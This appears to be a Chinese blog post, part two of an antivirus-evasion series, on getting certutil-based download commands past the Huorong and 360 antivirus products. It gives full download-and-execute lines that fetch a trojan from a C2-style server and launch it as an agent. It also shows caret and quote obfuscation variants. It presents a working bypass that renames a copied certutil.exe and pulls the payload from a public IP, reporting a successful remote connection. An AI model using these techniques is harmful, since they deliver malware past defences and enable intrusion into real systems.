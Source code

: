 
免杀学习-从指令绕过开始(2)

* * *

# 免杀学习-从指令绕过开始(2)

# certutil指令绕过

上次我们的免杀成功的绕过了联网360，但在半个月后就被无情的杀掉了，原因和火绒的报错一致是因为敏感指令certutil导致了报警，那么我们本次学习的主题就是如何绕过certutil的报警

那我们先看看通过cetutil指令进行下载的时候，他们的参数都有着什么作用

```plain
-f
覆盖现有文件。
有值的命令行选项。后面跟要下载的文件 url。
-split
保存到文件。
无值的命令行选项。加了的话就可以下载到当前路径，不加就下载到了默认路径。
-URLCache
显示或删除URL缓存条目。
无值的命令行选项。
（certutil.exe 下载有个弊端，它的每一次下载都有留有缓存。）
```

可以在命令后面加上 delete指令删除缓存

查看缓存

```plain
certutil -urlcache *
```

[![](assets/1701612194-a62fa93383f88b22a4876c3fe2a84f7c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804164455-2fabbbda-32a3-1.png)

看个缓存360直接报错了，因此可以判断是否目前360对于certutil的防御策略中有一项是针对我们的certutil的字符进行限制

执行删除缓存

```plain
certutil -urlcache * delete
```

## 绕过火绒

我们首先看看破晓中给我们的certutil的下载语句

```plain
certutil -urlcache -gmt -split -f http://127.0.0.1:1338/d/pzxsnoqd pzxsnoqd.exe && pzxsnoqd.exe agent -u http://127.0.0.1:1338 -s e75tdmwe
```

我们首先看看下载语句

```plain
certutil -urlcache -gmt -split -f http://127.0.0.1:1338/d/pzxsnoqd pzxsnoqd.exe
```

[![](assets/1701612194-c25cf19662c6cd2b2ec4116fbafbcc15.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804164825-acc0e10e-32a3-1.png)

会直接报警，防护提示显示是利用certutil下载可执行文件

### 语句上混淆（×）

我们调换四个带横线句子的顺序看看能否完成绕过

```plain
certutil -urlcache -gmt -split -f http://127.0.0.1:1338/d/pzxsnoqd pzxsnoqd.exe
```

无论怎么换，依旧报警即无法实现原有的字符混淆

### 尝试添加干扰参数（×）

添加一些无关参数

```plain
certutil -a -urlcache -gmt -split -f http://127.0.0.1:1338/d/pzxsnoqd pzxsnoqd.exe
```

添加了一些无关字段还是会报警

### 尝试从命令执行语句的构造上绕过（×）

除了常见的&和|命令外通过资料查找发现windows存在一些字符在命令执行的时候不会影响原语句的执行如：

```plain
p^i^n^g www.baidu.com
```

[![](assets/1701612194-2d2aba80a588781175c073bc1fa1918e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804165330-629dee40-32a4-1.png)

还有一个是利用双引号绕过

[![](assets/1701612194-ca8785244b755a98816c7472c71319ac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804165358-732a3ac0-32a4-1.png)

那么我们根据其特性进行类似构造

```plain
^c""^e^r^t""u^ti^l -u^r"l""""cache -gmt -split -f ht""tp://1"2"7.0.0.1:13""38/d/pzxsnoqd pzxsn""oqd.^e^""x""^e
```

炸裂还是不行

### 给certutil换个路径和文件名（√）

```plain
更换
copy c:\windows\system32\certutil.exe c.exe
下载
a -urlcache -split -f http://43.143.224.232:1338/d/pzxsnoqd pzxsnoqd.exe
```

[![](assets/1701612194-715c7b9d2a1ba189011bc1efb7f861bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804165429-85dd4220-32a4-1.png)

终于成功了，nice

[![](assets/1701612194-88cc8c68bcb879b84606219d1d3e05ef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804165456-95e09442-32a4-1.png)

远程连接也是成功的，实现了火绒的绕过

## 360绕过

那三板斧直接先给他来一下，既然火绒能绕过，360不得试试同样的方法行不行

[![](assets/1701612194-303373daa6eeee6ab6c5870938e36274.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804165520-a3fe58b6-32a4-1.png)

及时将前面绕过火绒的四个方法排列组合也不太行，寻找别的方法

### 多次命令路径的切换（×）

将我们复制的a，再次复制命名为b再次执行还是报警

推测可能是分析了命令执行的行为

### 尝试动态绕过（⚪）

这里可能不算真正意义上的手动绕过我们利用工具一个三方的小巧好用的修改工具verpatch，经过测试只需要修改程序版本信息中InternalName字段的值，这里我们InternalName修改为空看看情况。

```plain
verpatch.exe zzz.exe /s InternalName ""
```

[![](assets/1701612194-cd061ffefa5afa8af4cb7e84155c39d0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804165535-ad0c7c80-32a4-1.png)

但最离谱的是我们在执行木马的时候居然报警了

[![](assets/1701612194-a22fd245e01d6b3304a8b9263bbbfe78.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804165551-b6d266d0-32a4-1.png)

这是非常炸裂的

以jpg文件下载下来，执行依旧不行

[![](assets/1701612194-ab4e321005f00bc6db0904ec543deb99.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804165609-c131d214-32a4-1.png)

# 参考文献

```plain
https://www.freebuf.com/articles/endpoint/334548.html

https://xz.aliyun.com/t/9737#toc-1
```
